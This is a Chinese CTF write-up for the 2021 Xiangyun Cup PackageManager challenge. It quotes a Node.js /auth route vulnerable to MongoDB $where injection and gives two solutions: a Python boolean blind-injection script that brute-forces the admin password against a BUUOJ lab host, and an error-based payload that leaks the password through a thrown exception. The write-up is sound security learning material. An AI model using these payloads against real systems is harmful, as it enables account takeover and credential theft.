 ```yaml
---
title: 祥云杯 2021 PackageManager writeup
date: 2022-03-23 17:41:00
updated: 2022-03-23 17:41:00
tags: [ctf,security]

---
```


# 祥云杯 2021 PackageManager writeup

这题在BUUOJ上有复现环境，是个mongodb注入的题目，也有xsleaks的解法但是我目前还没搞明白，以下是两种注入的解法

## 布尔盲注

注册登录后发现是个包管理的页面，可以创建自己的包，那么根据源码初始化数据库这一部分，比较显然我们需要登录admin的账号然后admin会有个包里面有flag。

![image-20220323161015566](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323161015566.png)

![image-20220323160826952](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323160826952.png)

那我们的目标就是找到admin用户的密码

漏洞产生的点是/auth接口，auth接口是用于验证submit package的用户是不是admin用户，然后是需要提交一个admin的token，这个token就是admin用户的密码的md5，我们可以在这里构造一下payload然后爆出password，从而实现admin用户登录。

正则检测的waf没有加`^$`,意味着后面可以加or条件，这个很关键

```tsx
router.post('/auth', async (req, res) => {
	let { token } = req.body;
	if (token !== '' && typeof (token) === 'string') {
		if (checkmd5Regex(token)) {
			try {
				let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "${token.toString()}"`).exec()
				console.log(docs);
				if (docs.length == 1) {
					if (!(docs[0].isAdmin === true)) {
						return res.render('auth', { error: 'Failed to auth' })
					}
				} else {
					return res.render('auth', { error: 'No matching results' })
				}
			} catch (err) {
				return res.render('auth', { error: err })
			}
		} else {
			return res.render('auth', { error: 'Token must be valid md5 string' })
		}
	} else {
		return res.render('auth', { error: 'Parameters error' })
	}
	req.session.AccessGranted = true
	res.redirect('/packages/submit')
});
```

我们构造token:`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[0]=="a`使得括号内的值为

`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" || this.password[0]=="a"`

此时只要或条件成立语句就为真，写个脚本就可以爆出密码啦

```python
import requests
import string

url="http://d8ec246d-507e-4aaa-a226-d318473d31ec.node4.buuoj.cn:81/auth"
headers={
    "Cookie": "session=s%3Ay8Ne8sPLeY55QXmWPyh3WmPiuoDgOp6y.U3VuzJCBxWcb5AWW8CCkPJqnSmYJ1N9EnHvoR%2BBuGho",
}

flag = ''
for i in range(10000):
    for j in string.printable:
        if j == '"':
            continue
        payload='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[{}]=="{}'.format(i,j)
        data={
            "_csrf": "YzvJKLZc-4Sp0gfSn-hIRIF4bUZu0nhXy0HU",
            "token": payload
        }
        r=requests.post(url=url,data=data,headers=headers,allow_redirects=False)
        # print(r.text)
        if "Found. Redirecting to" in r.text:
            print(payload)
            flag+=j
            print(flag)
            break
```



![image-20220323155929287](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323155929287.png)

![image-20220323160751490](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323160751490.png)

## 异常注入

同样的是对auth接口这里逻辑判断，利用了js的抛出异常和IIFE（立即调用函数表达式）来实现

`token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin`

逻辑判断语句为：`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()!="aaaaa"`

这里就是立即执行throw Error(this.password)，后面是!=还是== 字符串的值是什么都无所谓，只要是语法没问题然后语句正常执行，这里强制抛出异常，从源码中可以看到抛出的异常会被渲染出来，然后就能够看到password的值

```js
let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin""`).exec()
console.log(docs);
```

![image-20220323165452041](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323165452041.png)



